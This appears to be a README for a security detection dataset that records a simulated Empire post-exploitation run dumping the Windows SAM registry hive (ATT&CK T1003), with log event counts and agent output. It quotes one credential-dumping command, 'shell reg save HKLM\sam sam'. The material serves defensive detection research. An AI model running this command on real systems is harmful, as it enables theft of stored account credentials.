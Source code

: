 
# Empire Reg Dump SAM

An adversary with administrator privileges can use the windows reg utility to dump the SAM registry hive.

## Technique(s) ID

T1003

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_reg_dump_sam.tar.gz](./empire_reg_sam.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19022540

## About this file

| log_name                                 | task                                                   |   events_count  |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |             186 |
| Security                                 | Filtering Platform Connection                          |             339 |
| Security                                 | User Account Management                                |              74 |
| Security                                 | Token Right Adjusted Events                            |              49 |
| Security                                 | Process Creation                                       |               8 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Sensitive Privilege Use                                |               7 |
| Security                                 | Authorization Policy Change                            |               6 |
| Security                                 | Group Membership                                       |               5 |
| Security                                 | Logon                                                  |               5 |
| Security                                 | Special Logon                                          |               5 |
| Security                                 | Process Termination                                    |               4 |
| Security                                 | Detailed File Share                                    |               2 |
| Security                                 | Other Object Access Events                             |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             354 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             278 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |             114 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |              69 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              24 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              22 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               7 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |               4 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |             153 |

## Empire Activity

```
shell reg save HKLM\sam sam
```

```
[*] Tasked FD6A3MGY to run TASK_SHELL
[*] Agent FD6A3MGY tasked with task ID 8
(Empire: FD6A3MGY) > ..Command execution completed.

(Empire: FD6A3MGY) >
```